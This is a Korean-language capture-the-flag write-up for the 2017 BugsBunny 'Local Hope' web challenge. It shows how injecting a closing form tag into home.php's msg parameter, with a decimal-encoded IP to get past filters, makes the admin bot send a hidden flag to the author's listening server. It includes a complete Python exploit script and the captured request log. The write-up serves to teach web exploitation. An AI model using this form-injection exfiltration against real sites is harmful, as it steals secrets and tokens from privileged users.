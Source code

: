 # 2017 BugsBunny - [WEB] Local Hope

## Key words

- CSRF (intended vulnerability)
- Content-Security-Policy
- decimal IP dot string to decial IP string

## Solution

페이지에 접속하면 회원 가입 페이지가 있고 회원 가입 이후 `home.php`와 `contact.php`가 존재합니다.

`home.php` 외관상 딱히 흥미로운 점은 없었고, 소스보기를 하면 다음과 같은 부분이 존재 합니다.

```html
        <form action="home.php" method="GET">
          <input type="hidden" id="msg" name="msg">
        </form>
```

`home.php`에 `msg` 파라미터를 입력받고 해당 값을 출력해줍니다.

단순히 `xss` 코드를 넣어 봣는데 에러가 발생하여 헤더쪽을 확인해보니 `CSP`가 걸려 있습니다.

- https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy
- https://content-security-policy.com/

결론적으로 `home.php`에 무언가 심어서 공격하기는 어려워 보입니다.

`contact.php`로 가보면 `admin`에게 리포트를 받을 `url`을 전송 하는 기능이 있습니다. 그런데 아무 url을 입력하면 `its not our website url!!`이라는 메시지가 뜨면서 동작을 하지 않습니다.

그리고 해당 url을 넣는다 해도 제가 서버에서 뭔가 받을 수 있는 형태가 아니기 때문에 무언가를 얻기가 어려워 보입니다.

그런데, CTF Dashboard의 문제 명세에 다음과 같은 힌트가 존재합니다.

```
Hint
index.php.old
```

해당 위치에 접근하면 다음과 같은 파일을 제공합니다.

```html
<!--debug-on-admin-test-->
<form action="5126e218beb3a87366e9e429befc7f66.php" method="POST" id="formflag">
           {$_GET['msg']}
          <label for="flag">Send some secret to my file :p!</label><br>
          <input type="hidden" id="flag" name="this_is_your_flag_here_get_it"><br>
          <input type="hidden" name="csrf_token" value="{$csrf_token}" />
</form>
<!--Hide in home.php just for admin :p-->
```

admin만 접근 가능한 폼이고 이 곳에 플래그가 존재하는 것 같습니다.

`contact.php`에서 제가 제공하는 `url`을 `home.php`로 하게 되면 admin 권한으로 동작하기 때문에 이 폼이 실행 될 수 있습니다.

또한 `home.php`에서 넣었던 `msg` 파라미터가 내부에 존재 하기 때문에 `</form>`를 이용하여 강제로 폼을 닫고 새로운 폼을 만들어서 `action`을 통해 제가 대기하고 있는 서버로 내용을 전달하면 될것 같습니다.

한 가지 주의할점은 여러가지 필터링이 되어 있어 IP주소나 URL주소를 넣기가 까다롭게 되어 있습니다. 따라서, IP 주소를 Decial 형태로 변환하여 전송합니다.

전체적인 흐름은 다음과 같습니다.

- `contact.php`의 url 파라미터에 http://34.253.165.46/LocalHope/home.php?msg=</form><form action='htto://my_listen_server_decial_ip:port'> 를 넣어서 `post` 요청을 전달
- 그러면 contact.php 에서 내부적으로 timeout 기반으로 유저가 넣은 URL에 접근하는데 이는 admin 세션으로 접근
- 요청한 URL은 `http://34.253.165.46/LocalHope/home.php` 이기 때문에 이 페이지를 admin 세션으로 접근하여 히든폼을 내부적으로 사용
- 요청한 `msg` 값에 의해 히든폼은 다음과 같이 동작함

```html
<!--debug-on-admin-test-->
<form action="5126e218beb3a87366e9e429befc7f66.php" method="POST" id="formflag"></form>

<form action='http://my_listen_server_decial_ip:port'>
          <label for="flag">Send some secret to my file :p!</label><br>
          <input type="hidden" id="flag" name="this_is_your_flag_here_get_it"><br>
          <input type="hidden" name="csrf_token" value="{$csrf_token}" />
</form>
<!--Hide in home.php just for admin :p-->
```

디폴트로 `GET` 방식으로 전달 되기 때문에 내 서버에서 특정 포트로 대기하고 있으면 해당 정보가 내 서버로 전달되게 됩니다.

## Solution Code

```python
import requests
from socket import *

# SOCK SETTING
s = socket(AF_INET, SOCK_STREAM)
s.bind(("0.0.0.0", 6354))
s.listen(5)

print "[*] listen socket 0.0.0.0:6354"

external_ip = "128.134.218.238"
dec_ip = int("".join("%02x"%int(x) for x in external_ip.split(".")), 16)

url = "http://34.253.165.46/LocalHope/contact.php"
target_url = "http://34.253.165.46/LocalHope/home.php?msg=</form><form action='http://%d:6354'>" % (dec_ip)

headers = {"Cookie": "PHPSESSID=9ovu5q4ud2cvl9rq9k4k2sqsm1" }
data = { "url":  target_url }


r = requests.post(url, headers=headers, data=data)
print "[*] Sent : {}".format(url)

c, addr = s.accept()
print c.recv(1024)
c.close()
```

## Result

```
tbkim@ubuntu:~/ctf/web/0006_2017_bugsbunny_LocalHope$ python sol_localhopes.py 
[*] listen socket 0.0.0.0:6354
[*] Sent : http://34.253.165.46/LocalHope/contact.php
GET /?this_is_your_flag_here_get_it=Bugs_Bunny%7BOh_You_FFirst_Find_Me_And_Bypass_My_CSP_%3A%28%28%21%21%7D&csrf_token=2bc0beca2bb56a8ea0784083b1eb0df1 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://34.253.165.46/LocalHope/home.php?msg=%3C/form%3E%3Cform%20action=http://2156321518:6354%3E
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
Host: 128.134.218.238:6354
```

Bugs_Bunny{Oh_You_FFirst_Find_Me_And_Bypass_My_CSP_:((!!}